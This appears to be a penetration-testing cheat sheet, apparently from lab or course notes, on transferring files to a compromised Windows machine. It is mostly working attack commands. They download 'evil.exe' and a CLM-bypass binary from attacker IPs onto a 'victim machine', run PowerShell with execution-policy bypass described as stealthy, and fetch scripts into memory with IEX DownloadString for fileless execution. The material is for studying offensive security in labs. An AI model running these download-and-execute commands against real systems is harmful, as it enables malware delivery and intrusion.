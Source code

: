 ### iwr (Invoke-Web-Request)
Transfer a file with the following command:
```bash
PS> iwr -uri http://10.10.14.4/PsBypassCLM.exe -OutFile PsBypassCLM.exe
```
[[Sizzle#^]]
Execute this commands to create wget.ps1 on victim machine:
```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
To ensure both correct and stealthy execution, we specify a number of options in the execution of the script, it must be executed on cmd as shown below:
```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
One-liner of the above command:
```bash
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://localhost/evil.exe', 'new-exploit.exe')
```
If we want to download and execute a PowerShell script without saving it to disk, we can once again use the System.Net.Webclient class. This is done by combining the DownloadString method with the Invoke-Expression cmdlet (IEX).3
To demonstrate this, we will create a simple PowerShell script on our Kali machine:
```bash
kali@kali:/var/www/html$ sudo cat helloworld.ps1 
Write-Output "Hello World"
```

Next, we will run the script with the following command on our compromised Windows machine (Listing 21):
```cmd
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```
